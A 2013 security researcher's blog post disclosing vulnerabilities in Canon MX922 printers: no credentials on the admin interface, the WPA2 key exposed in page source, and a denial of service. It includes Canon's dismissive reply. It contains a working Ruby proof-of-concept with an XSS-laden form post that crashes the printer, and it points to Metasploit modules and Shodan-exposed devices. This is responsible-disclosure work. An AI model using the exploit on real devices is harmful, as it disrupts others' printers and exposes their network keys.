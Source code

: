 ```yaml
---
title: "Canon, Y U NO Security?"
date: "2013-06-18T08:23:00-04:00"
comments: true
highlight: "true"
categories:
 - http
 - printer
 - canon
 - security
 - hacking
featured_image: y-u-no-guy.jpg
aliases:
 - "/2013/06/canon-y-u-no-security.html"
---
```


I recently bought a new printer at home, so my wife could print coupons without manually attaching to my office printer each time (Thanks coupons.com and all the other shady sites that require spyware-like software to print coupons, and often don't support network printers). I ended up picking up a [Canon MX922](https://www.amazon.com/dp/B00AVWKUJS/ref=as_li_ss_til?tag=mattandcom-20&camp=0&creative=0&linkCode=as4&creativeASIN=B00AVWKUJS&adid=07S04SQ3X3C73H5QDS7T&). It works awesome for her, and is connected over WiFi, so any device in the house can print to it. This got me thinking though, about how secure it was.

<!-- more -->

## No Credentials For Management Interface
### CVE-2013-4613

I found the IP of the status page of my router, and browsed to it. I was greeted with this management page. 

{{% figure class="img-responsive" src="/img/printer_1.png" %}}

I then figured I'd look at some of the more advanced settings, so I clicked the "Advanced" link. This brought me to a control panel for the printer. I saw a bunch of information, and was surprised that I had not entered <b>any</b> credentials. I figured maybe the status page would be anonymous, but surely I'd need some password to access the management pages. But then again, I hadn't used any password when setting up the printer using the LCD.

## Disclosure of Wireless Key and SSID
### CVE-2013-4614

I eventually browsed to the "Network Settings" tab, and saw my SSID of "Wireless". Not too bad, since it's broadcast in the air.

{{% figure class="img-responsive" src="/img/printer_2.png" %}}

I saw that it was using WPA2, as I configured. I clicked the "Modify" button, and saw that I could change all of the wireless settings. The worst was that when I saw the "Use WPA2" radio button, I saw that there was text in the password box.

{{% figure class="img-responsive" src="/img/printer_3.png" %}}

Assuming that there was a junk value in there, I viewed the source. Unfortunately, what I found was that the page did indeed have my printer's WPA2 password right there.

{{% figure class="img-responsive" src="/img/printer_4.png" %}}

I started thinking about this. It wasn't a <i>huge</i> issue, since you'd have to already know my WPA2 key to get to the printer, right? Oh, but what about if a device behind my firewall had been compromised by a remote attacker? The attacker would be free to navigate to my printer, and grab my password. If I was like just about every other person I talk to, I probably use the same password on everything, so I don't have to remember unique passwords. That means now an attacker could potentially login to my email, my SSH server, or even other machines on my LAN. This scared me slightly. 

After a while, I started thinking that perhaps there were people that could potentially put their printers directly connected to the internet, and have these management interfaces publicly exposed to anonymous clients. I checked out the [ShodanHQ](http://www.shodanhq.com/search?q=port%3A80+KS_HTTP+1.0) (FYI, it seems also Minolta uses this server banner as well). I saw that there were nearly 15,000 at the time of this writing, so I wrote up a quick Metasploit module to enumerate the information. It is located [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/canon_wireless.rb). Below is sample output from a selection of hosts I got from ShodanHQ and a host that should time out, as a control sample.

{{% figure class="img-responsive" src="/img/printer_5.png" %}}

## Denial of Service
### CVE-2013-4615

I kept playing around with the configuration interface, and while tinkering with some inputs in [Burp](http://portswigger.net/burp/), the device stopped responding. I walked to the other room, where we keep the printer, and noticed that it was completely unresponsive. I had to power-cycle the device, to which it came back up and told me it wasn't powered down properly.

When I reported this to Canon, they asked me for more information, so I provided them the following code as a proof-of-concept.

```
#!/usr/bin/ruby

require 'net/http'
require 'uri'

print 'Enter your printer IP Address: '
input = gets.strip

printer_url = "http://#{input}"

# Make the first request, to set the IP to invalid data
post = Net::HTTP.post_form(URI.parse(printer_url + '/English/pages_MacUS/cgi_lan.cgi'),
{'OK.x' => '61', 'OK.y' => '12', 'LAN_OPT1' => '2', 'LAN_TXT1' => 'Wireless', 'LAN_OPT3' => '1', 'LAN_TXT21' => '192', 
'LAN_TXT22' => '168', 'LAN_TXT23' => '1', 'LAN_TXT24' => '114"><script>alert(\'xss\');</script>', 'LAN_TXT31' => '255',
'LAN_TXT32' => '255', 'LAN_TXT33' => '255', 'LAN_TXT34' => '0', 'LAN_TXT41' => '192', 'LAN_TXT42' => '168', 
'LAN_TXT43' => '1', 'LAN_TXT44' => '1', 'LAN_OPT2' => '4', 'LAN_OPT4' => '1', 'LAN_HID1' => '1'})

# Make the second request, to trigger the DoS
begin
get = Net::HTTP.get(URI.parse(printer_url + '/English/pages_MacUS/lan_set_content.html'))
rescue Timeout::Error
puts 'Look at your printer to see it is unresponsive.'
end
```

If you look closely, you can see that I was testing for Cross-Site-Scripting, and put HTML in the "LAN_TXT24" input box. Canon's javascript validation prevents this, but nothing stops you from manipulating the HTTP response. This is a prime example of why server-side validation is also required.

I ended up turning this into a Metasploit module as well. You can find it available [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/canon_wireless_printer.rb). It works pretty similarly to most DoS modules:

{{% figure class="img-responsive" src="/img/printer_6.png" %}}

## Canon's Response

I responsibly disclosed these vulnerabilities to Canon, but they apparently don't deem them worthy of being fixed. I don't think they really "get it". Since they aren't going to fix it, I am releasing these details publicly. Below is their reply:


>Dear Mr. Andreko,
>
>Thank you for your patience in allowing Canon to respond.  We have confirmed that the two issues you described in your May 27th e-mail can occur in certain printers such as the MX922.  However, with respect to the issue of no password by default, please note that the inkjet printers which have network functionality such as the MX922 are designed for home use which is supposed to be secured.  For this reason, and for user convenience, the default setting does not require a password.  However, if a user has a particular concern about third parties accessing the user’s home printer, the default setting can be changed to add a password.
>
>Similarly, regarding the DoS issue, Canon believes that its printers will not have to deal with unauthorized access to the network from an external location as long as the printers are used in a secured environment.  The issue you described could only occur when unauthorized access to an unsecured network takes place from the outside.  Canon has long advised customers to ensure that their computers and printers are secured when used in a wireless LAN environment.  We will continue advising customers to use our inkjet printers in a secured network environment with a firewall.  However, even if the printer were not used in a secure environment, in the unlikely chance that this type of access occurred from outside, the printer would simply have to be unplugged and re-plugged to ensure normal operation.  In addition, if the network security settings on the printer had been changed by the external source as a result of the incident, then they would have to be changed back to the default settings along with unplugging and re-plugging the power cord to ensure normal operation.
>
>Again, we thank you for giving Canon the opportunity to investigate these issues and to respond to your concerns.
>
>Best regards,
>Joy
>Executive Response Representative
>Canon Customer Relations
>customer@cits.canon.com
>866-886-1901, x 2130


I understand, these vulnerabilites aren't super high priority. They're no ms08-067. But I would still think a vendor would want to fix them. When searching ShodanHQ, I found a bunch of printers from UCLA. I can only imagine the chaos when it becomes finals-week, and all the printers on campus stop working randomly. That'd be bad PR for Canon. Who knows what else is out there. I'd personally be interested in dumping the firmware of the printer, and seeing if there's a way to get remote code execution out of a crash. I'll chalk that up to my TODO list.
